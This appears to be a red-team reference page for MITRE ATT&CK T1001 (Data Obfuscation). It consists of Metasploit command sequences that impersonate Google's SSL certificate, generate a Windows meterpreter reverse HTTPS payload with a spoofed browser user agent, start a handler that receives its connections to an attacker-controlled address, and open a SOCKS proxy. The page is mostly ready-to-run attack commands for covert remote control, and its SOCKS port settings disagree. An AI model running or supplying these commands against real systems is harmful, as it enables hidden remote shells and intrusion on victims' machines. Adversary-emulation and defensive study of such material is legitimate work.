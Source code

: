 
# Data Obfuscation

MITRE ATT&CK Technique: [T1001](https://attack.mitre.org/wiki/Technique/T1001)



## Metasploit - Mimic Google Certificate

    use auxiliary/gather/impersonate_ssl
    set rhost www.google.com
    run

## Metasploit - Create Payload w/ Certificates

    Use payload/windows/meterpreter/reverse_https
    set stagerverifysslcert true
    set HANDLERSSLCERT /root/.msf4/loot/2017011813_609599.pem
    set LHOST 172.16.0.100
    set LPORT 443
    set MeterpreterUserAgent Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)
    set LURI Secure/8984398439845AC33/Services/Status
    generate -t psh-cmd

## Metasploit - Start Hander w/ certificates

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_https
    set stagerverifysslcert true
    set HANDLERSSLCERT /root/.msf4/loot/2017011813_609599.pem
    set LHOST 172.16.0.100
    set LPORT 443
    set MeterpreterUserAgent Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)
    set LURI Secure/8984398439845AC33/Services/Status
    set StagerVerifySSLCert true
    set ExitOnSession false
    exploit –j
    
## Metasploit - Setup Socks Proxy on Port 55555
    use auxiliary/server/socks4a
    set SRVPORT 55555
    run
    
## Edit /etc/proxychains.conf
    Add socks4 127.0.0.1 5555
    Sleep 6000    
